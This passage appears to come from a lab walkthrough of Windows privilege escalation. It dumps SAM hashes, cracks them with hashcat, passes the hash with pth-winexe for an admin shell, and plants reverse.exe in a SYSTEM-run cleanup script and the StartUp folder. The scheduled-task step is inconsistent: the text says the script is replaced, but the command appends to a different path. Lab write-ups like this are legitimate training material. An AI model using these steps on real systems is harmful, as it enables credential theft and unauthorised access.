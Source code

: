 Now to after transfer of files into linux machine we can download `creddump7` to dump out the hashes. You can download [creddump7](https://github.com/Tib3rius/creddump7).
```bash
root@gr4n173:~$ python3 creddump7/pwdump.py SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:hashes over here:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:hashes overhere:::
```
Then after getting hashes we can crack the password using `hashcat`
```bash
root@gr4n173:~$ hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlist/rockyou.txt
```
### Passing the Hash
Kali Linux have a tool which allow to login using the username/passwordhash called `pth-winexe` and spawn a shell running as `admin`
```bash
root@gr4n173:~$ pth-winexe -U 'admin%hash_over_here' //10.10.26.193 cmd.exe
```

## 5. Scheduled Tasks
As in linux we use `cronjob` for scheduled tasks but here in `Windows` we can use `cleanup.ps1` script. This tools usually cleanup but only thing is it need to be run by `SYSTEM`. Download [here](https://github.com/kentgrav/PowerShell/blob/master/Windows-Cleanup.ps1).
To `cat` the file in `windows` we can use `type` command and can see it is run by `SYSTEM`.
```bash
C:\DevTools>type CleanUp.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log
```
Now our task is to replace `cleanup.ps1` script with `reverse.exe`. Then after certain time we can get the shell with listner on in linux.
```bash
C:\gr4n173> echo C:\gr4n173\reverse.exe >> C:\gr4n173\CleanUp.ps1
```

## 6. Startup Apps
Using accesschk.exe, note that the BUILTIN\\Users group can write files to the StartUp directory:
```bash
C:\gr4n173> accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

Using cscript, run the C:\\PrivEsc\\CreateShortcut.vbs script which should create a new shortcut to your reverse.exe executable in the StartUp directory:
```bash
C:\gr4n173>cscript CreateShortcut.vbs
```
